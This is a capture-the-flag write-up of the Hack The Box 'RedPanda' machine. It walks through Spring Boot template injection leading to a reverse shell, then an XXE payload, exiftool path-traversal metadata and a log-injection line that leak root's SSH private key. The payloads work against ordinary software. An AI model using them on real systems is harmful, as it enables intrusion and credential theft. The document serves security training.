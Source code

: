 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: RedPanda
- Description: RedPanda is an easy Linux machine that features a website with a search engine made using the Java Spring Boot framework. This search engine is vulnerable to Server-Side Template Injection and can be exploited to gain a shell on the box as user `woodenk`. Enumerating the processes running on the system reveals a `Java` program that is being run as a cron job as user `root`. Upon reviewing the source code of this program, we can determine that it is vulnerable to XXE. Elevation of privileges is achieved by exploiting the XXE vulnerability in the cron job to obtain the SSH private key for the `root` user. We can then log in as user `root` over SSH and obtain the root flag.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT     STATE SERVICE    VERSION                                                       
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                          
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)            
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)           
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)         
8080/tcp open  http-proxy                                                               
| http-methods:                                                                         
|_  Supported Methods: GET HEAD OPTIONS                                                 
|_http-open-proxy: Proxy might be redirecting requests                    
| fingerprint-strings:                                                                  
|   GetRequest:                                                                         
|     HTTP/1.1 200                                                                      
|     Content-Type: text/html;charset=UTF-8                                             
|     Content-Language: en-US                                                           
|     Date: Mon, 19 Feb 2024 15:53:44 GMT                                               
|     Connection: close                                                                 
|     <!DOCTYPE html>                                                                   
|     <html lang="en" dir="ltr">                                                        
|     <head>                                                                            
|     <meta charset="utf-8">                                                            
|     <meta author="wooden_k">                                                          
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->   
|     <link rel="stylesheet" href="css/panda.css" type="text/css">        
|     <link rel="stylesheet" href="css/main.css" type="text/css">         
|     <title>Red Panda Search | Made with Spring Boot</title>
```

2 Ports, let's checkout 8080!
We're faced with a panda and a search bar, let's capture the request and send it to repeater:
![](assets/images/2024-02-19-HTB-RedPanda-Writeup-image-1.png)

![](assets/images/2024-02-19-HTB-RedPanda-Writeup-image-2.png)
We know that it's using spring boot! This is also reflecting everything I'm typing to the screen, I can attempt 3 things, SSTI, SQLi, and XSS. SSTI seems the most likely for me so let's look into it 

I use a spring framework SSTi Payload and get the `id` command to run!
![](assets/images/2024-02-19-HTB-RedPanda-Writeup-image-3.png)

From there I can switch it to a reverse shell payload:

```bash
HTB nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.170] 49212
bash: cannot set terminal process group (880): Inappropriate ioctl for device
bash: no job control in this shell
woodenk@redpanda:/tmp/hsperfdata_woodenk$ 
```
## Privilege Escalation

I look for the source code of the application, which seems to be here:
![](assets/images/2024-02-19-HTB-RedPanda-Writeup-image-4.png)

This looks like it takes the artist name from the image directory and then parses out their data from /credits/ directory. This means that the artist tag is vulnerable to LFI into XXE. I'll start by crafting the XXE:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/../../../../../../../dev/shm/greg.jpg</uri>
    <views>&xxe;</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

Now I'll craft the image payload:

```bash
exiftool -artist=../../../../dev/shm/woodenk greg.jpg 
Warning: [minor] Ignored empty rdf:Bag list for Iptc4xmpExt:LocationCreated - greg.jpg
    1 image files updated
```

Now I need to write it to /dev/shm along side with the xml file somewhere on the machine so it can reference it. Note that it autocompletes the `_creds.xml`

From there I need to update the redpanda log in order to get it to execute the payload:

```bash
woodenk@redpanda:/opt/panda_search$ echo "200||10.10.14.36||Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0||/../../../../../../../../../../dev/shm/greg.jpg" > ./redpanda.log
```

Now we wait some time and read the file again, and we'll see that it wrote our payload! From there I can read the ssh key for the root user and ssh in as him!

```bash
woodenk@redpanda:/dev/shm$ cat woodenk_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/../../../../../../../../dev/shm/greg.jpg</uri>
    <views>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```


```bash
root@redpanda:~# whoami
root
```

best,
gerbsec